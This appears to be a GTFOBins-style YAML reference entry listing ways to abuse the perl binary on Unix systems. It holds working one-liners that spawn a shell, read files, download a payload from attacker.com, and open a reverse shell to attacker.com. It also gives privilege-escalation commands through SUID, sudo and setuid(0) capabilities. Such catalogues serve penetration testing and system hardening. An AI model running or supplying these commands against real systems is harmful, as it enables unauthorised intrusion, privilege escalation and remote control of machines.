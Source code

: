 ```yaml
---
functions:
  shell:
    - code: perl -e 'exec "/bin/sh";'
  file-read:
    - code: |
        LFILE=file_to_read
        perl -ne print $LFILE
  file-download:
    - description: Download a file via HTTP. For example, run `python3 -m http.server 8080` on the serving side.
      code: |
        export RHOST=attacker.com
        export RPORT=8080
        export URL=/exploit.sh
        export LFILE=output.txt
        perl -MIO::Socket::INET -e '$s=new IO::Socket::INET(PeerAddr=>$ENV{"RHOST"},PeerPort=>$ENV{"RPORT"},Proto=>"tcp") or die; print $s "GET " . $ENV{"URL"} . " HTTP/1.1\r\nHost: " . $ENV{"RHOST"} . "\r\nMetadata: true\r\nConnection: close\r\n\r\n"; open(my $fh, ">", $ENV{"LFILE"}) or die; $in_content = 0; while (<$s>) { if ($in_content) { print $fh $_; } elsif ($_ eq "\r\n") { $in_content = 1; } } close($s); close($fh);'
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        perl -e 'use Socket;$i="$ENV{RHOST}";$p=$ENV{RPORT};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
  suid:
    - code: ./perl -e 'exec "/bin/sh";'
  sudo:
    - code: sudo perl -e 'exec "/bin/sh";'
  capabilities:
    - code: ./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
---
```


